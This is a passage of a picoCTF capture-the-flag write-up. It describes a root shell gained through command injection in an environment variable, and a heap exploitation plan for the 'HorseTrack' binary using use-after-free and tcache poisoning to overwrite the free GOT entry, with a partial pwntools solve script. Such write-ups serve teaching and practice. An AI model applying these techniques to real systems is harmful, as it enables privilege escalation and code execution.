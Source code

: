 Running it asks to set the SECRET_DIR environment variable

![image](https://user-images.githubusercontent.com/113513376/229088835-33c6ebfc-9dee-4f6a-b7b2-81f3f7b81f12.png)

So i set it to /root

![image](https://user-images.githubusercontent.com/113513376/229088304-d12ef8cc-4672-4203-b1b9-1c2598d80c01.png)

And after running it, it shows the list of files in root directory

So its likely doing ls then getenv(SECRET_DIR) 

I searched for command injection in environment variable and got [Resource](https://int0x33.medium.com/day-29-set-user-id-environment-variable-injection-path-user-for-linux-priv-esc-ea6c0adc19b8)

Trying it works and we get shell as root

![image](https://user-images.githubusercontent.com/113513376/229088997-659875b6-3c93-4b9f-b747-d92f2e41ede4.png)

<h3> HorseTrack </h3>


![image](https://user-images.githubusercontent.com/113513376/228821375-eda5f850-5ea6-4a90-86dd-426bc072e4f4.png)

After downloading the binary i ran it to get an idea of what it does

![image](https://user-images.githubusercontent.com/113513376/229089970-60011c18-994a-4269-9401-3e8d75e9a773.png)

From the challenge description we can tell its a heap sort of challenge and its likely UAF since i noticed most pwn heap chall pico ctf brings are based on UAF

After playing with the binary and understanding it, I concluded that for us to exploit this binary we're going to advantage of tcache poisoning with a UAF vulnerability

Here's my exploit mechanism

```
1. add_horse() .. allocates buffer
2. remove_horse() .. frees buffer
3. move_horse() ...
4. And finally tcache poisoning attack to have malloc() return an arbritary pointer to a target memory location. Overwritting the free GOT entry with system with a horse named /bin/sh
```

Here's my solve script

```
#!/usr/bin/env python3

from pwn import *

LOCAL = True  # Set to False to connect to the remote server

if LOCAL:
    r = process('./vuln')
else:
    r = remote('saturn.picoctf.net', 63578)

def edit_horse(idx, data, spot):
    r.sendlineafter(b'Choice: ', b'0')
    r.sendlineafter(b'Stable index # (0-17)? ', str(idx).encode())
    r.sendlineafter(b'Enter a string of 16 characters: ', data)
    r.sendlineafter(b'New spot? ', str(spot).encode())

def add_horse(idx, size, data):
    r.sendlineafter(b'Choice: ', b'1')
    r.sendlineafter(b'Stable index # (0-17)? ', str(idx).encode())
    r.sendlineafter(b'Horse name length (16-256)? ', str(size).encode())
    r.sendlineafter(b'characters: ', data)

```